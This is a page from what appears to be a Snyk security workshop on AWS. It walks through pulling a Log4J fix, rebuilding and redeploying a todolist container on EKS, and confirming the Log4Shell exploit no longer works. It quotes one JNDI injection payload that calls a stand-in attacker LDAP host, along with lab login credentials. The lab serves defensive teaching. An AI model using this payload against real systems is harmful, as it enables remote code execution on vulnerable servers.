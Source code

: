 +++
title = "Step 9: Verify the Vulnerability is no longer exploitable."
chapter = false
weight = 44
+++

## Update your Cloud9 working branch

Back in Cloud9, pull the latest changes, including the Snyk Fix, to the working environment.

```sh
git pull
```

## Re-build the Image
Now build and push the container to ECR (make sure you are cd'ed into the todolist directory).

```sh
docker build -t ${ECR_REPO}/todolist:latest .
docker push ${ECR_REPO}/todolist:latest
```

## Re-deploy the Application to EKS

After pushing the image to ECR, push it to EKS by scaling the goof deployment with kubectl. The deployment's ImagePullPolicy forces EKS to pull the latest image from ECR.

```sh
kubectl scale deployment todolist --replicas=0
kubectl scale deployment todolist --replicas=1
```

## Verify the Exploit no longer works

Refresh your broweser tab on the todolist app and log back in (user: foo@bar.org, password: foobar) and submit the same JDNI search string: `${jndi:ldap://ldap.darkweb:80/#Vandalize}`.
The page will not show the graphiti because the newer version on Log4J no longer is vulnerable!

![todolist-fixed](/images/todolist-fixed.png)